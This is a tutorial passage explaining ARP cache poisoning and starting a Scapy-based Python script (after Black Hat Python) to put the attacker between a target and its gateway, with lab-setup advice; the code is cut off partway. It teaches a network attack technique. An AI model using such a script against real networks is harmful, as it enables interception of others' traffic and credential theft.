 

-----------
## <a name="arp"></a> ARP Cache Poisoning

I talked about [ARP cache poisoning using command line arpspoof](http://singularity-sh.vercel.app/wiresharking-for-fun-or-profit.html) in my guide about Wireshark. Here we are going to see how to implement a similar tool using Scapy.

ARP cache poisoning works by convincing a target machine that we are the gateway and then convincing the gateway that all traffic should pass through our machine.

Every machine in a network maintains an ARP cache that stores the recent MAC addresses that match to IP addresses on the local network. All we need to do is to poison this cache with controlled entries.

The best way to test this is by using a Windows virtual machine (take a look in [this guide I wrote](http://singularity-sh.vercel.app/setting-up-a-playing-environment-with-virtual-machines.html)).

Before the attack, go to the Windows box, open the terminal (```cmd```) and check the IP and gateway IP address with```ipconfig```. Then check the associated  ARP cache entry MAC address with ```arp -a```. We are going to use the former information and we will see the ARP data being changed:

![cyber](http://i.imgur.com/ME069uS.png)

Following is our ARP poisoning script (based on [Black Hat Python](http://www.nostarch.com/blackhatpython)). The script does the following steps:

1. Define constant values, set our interface card, and turn off the output.

2. Resolve the gateway and target MAC address.
    * The function **get_mac** use the **srp** method to emit an ARP request to an IP address to resolve the MAC address.

3. Start the poison thread to perform the ARP poisoning attack. This will start the sniffer that captures the packets.
    * The function **poison_target** builds ARP requests for poisoning both the target IP and the gateway (in a loop).

4. Write out the captured packets and restore the network.
    * The function **restore_target** sends out the ARP packets to the network broadcast address to reset the ARP caches of the gateway and target machines.


```python
from scapy.all import *
from scapy.error import Scapy_Exception
import os
import sys
import threading
import signal

INTERFACE       =   'wlp1s0'
TARGET_IP       =   '192.168.1.107'
GATEWAY_IP      =   '192.168.1.1'
PACKET_COUNT    =   1000

def restore_target(gateway_ip, gateway_mac, target_ip, target_mac):
    print '[*] Restoring targets...'
    send(ARP(op=2, psrc=gateway_ip, pdst=target_ip, hwdst='ff:ff:ff:ff:ff:ff', \
        hwsrc=gateway_mac), count=5)
    send(ARP(op=2, psrc=target_ip, pdst=gateway_ip, hwdst="ff:ff:ff:ff:ff:ff", \
        hwsrc=target_mac), count=5)
    os.kill(os.getpid(), signal.SIGINT)

def get_mac(ip_address):
    response, unanswered = srp(Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(pdst=ip_address), \
        timeout=2, retry=10)
    for s, r in response:
```